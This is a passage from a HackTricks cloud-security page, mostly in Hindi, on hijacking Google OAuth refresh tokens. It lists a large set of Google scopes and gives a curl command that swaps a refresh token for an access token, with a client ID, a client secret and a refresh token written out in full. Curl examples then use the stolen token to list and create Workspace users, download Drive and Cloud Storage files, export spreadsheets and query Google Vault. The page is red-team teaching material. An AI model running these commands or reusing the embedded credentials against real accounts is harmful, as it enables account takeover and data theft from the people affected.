https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

कुछ उदाहरण उन स्कोप्स का उपयोग करते हुए:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** Google Workspace के लिए एक ऐड-ऑन है जो आपके संगठन के डेटा के लिए डेटा बनाए रखने, खोजने और निर्यात करने के उपकरण प्रदान करता है जो Google Workspace सेवाओं जैसे Gmail, Drive, Chat, और अधिक में संग्रहीत है।

* Google Workspace Vault में एक **Matter** एक **container** है जो एक विशिष्ट मामले, जांच, या कानूनी मामले से संबंधित सभी जानकारी को व्यवस्थित और समूहित करता है। यह उस विशेष मुद्दे से संबंधित **Holds**, **Searches**, और **Exports** प्रबंधित करने के लिए केंद्रीय हब के रूप में कार्य करता है।
* Google Workspace Vault में एक **Hold** एक **preservation action** है जो विशिष्ट उपयोगकर्ताओं या समूहों पर लागू होता है ताकि उनके डेटा को Google Workspace सेवाओं के भीतर **हटाने या संशोधित करने** से **रोकने** के लिए। Holds यह सुनिश्चित करते हैं कि प्रासंगिक जानकारी कानूनी मामले या जांच की अवधि के लिए सुरक्षित और अपरिवर्तित बनी रहे।
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
More [API endpoints in the docs](https://developers.google.com/vault/reference/rest).

</details>

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR सबमिट करें।

</details>
{% endhint %}
